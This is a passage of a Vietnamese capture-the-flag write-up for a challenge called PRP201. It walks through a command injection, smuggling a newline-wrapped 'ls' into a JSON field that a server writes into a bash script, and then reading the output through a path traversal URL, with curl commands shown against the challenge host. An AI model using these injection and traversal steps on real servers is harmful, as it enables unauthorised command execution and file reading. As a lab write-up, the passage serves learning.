       - `script_bash` là tên file được thực thi bới lệnh `bash`, có nội dung được nhập từ nôi dung file trên `url` của JSON truyền vào

      - `command_log` chính là file log của `stdout` và `stderr`, như vậy khi thực thi, output và thông báo lỗi của `bash` đều sẽ đẩy vào file log đó, và tất nhiên, ta có thể xem file log đó qua path traversal

- Đến đây thì mình (và tin chắc ai đó khi xem WU này), chắc hẳn đều đã nghĩ ra rồi, tác giả cũng đã ra hint `suprocess.Popen(), stderr, stdout là gì?` rồi :v

- Mình thử luôn nhé :v Như ở trên ta đã có JSON bao gồm `dir`, `name`, `command_log`, `url`

- URL để nhận file JSON là `http://139.180.208.121:8001/runScript`, để gửi JSON lên thì mình sử dụng `curl` như sau:

    ```bash
    curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{json}'
    ```

- Mình sẽ thử tạo một JSON như sau:

    ```json
    {
        "dir" : "test",
        "name" : "ls",
        "command_log" : "log",
        "url" : "http://localhost:8888/"
    }
    ```

- Ghép lại với `curl`:

    ```shell
    curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{"dir" : "test", "name" : "ls", "command_log" : "log", "url" : "http://localhost:8888/"}'
    ```

- Và sau khi gửi, truy cập vào `http://139.180.208.121:8001/getData?f=/fus/data/../logs/log.txt` để xem kết quả của câu lệnh là gì (ta biết `logs` cùng chung thư mục cha với `data` khi xem code):

    ![curl](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP201_2.png)

    ![log.txt](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP201_3.png)

- Có thể thấy rằng, nội dung file chính`log.txt` chính là biến `script_path` được ra thêm cả `response` của `index()`, chúng trên một dòng nên sẽ bị lỗi, thử đổi `ls` thành `\nls\n` ở JSON và gửi lên, sẽ thấy sự khác biệt:

    ![curl_1](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP201_4.png)

    ![log.txt_1](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP201_5.png)

- Thấy rõ là `ls` đã thụt xuống, vậy điều này có ý nghĩa gì? `bash <filename>` khi chạy sẽ chạy từ trên xuống như các ngôn ngữ lập trình, nhưng có một điều đặc biệt là, hàng nào lỗi, nó sẽ in ra lỗi và chạy hàng tiếp theo, chứ không dừng lại khi gặp lỗi syntax bên trong
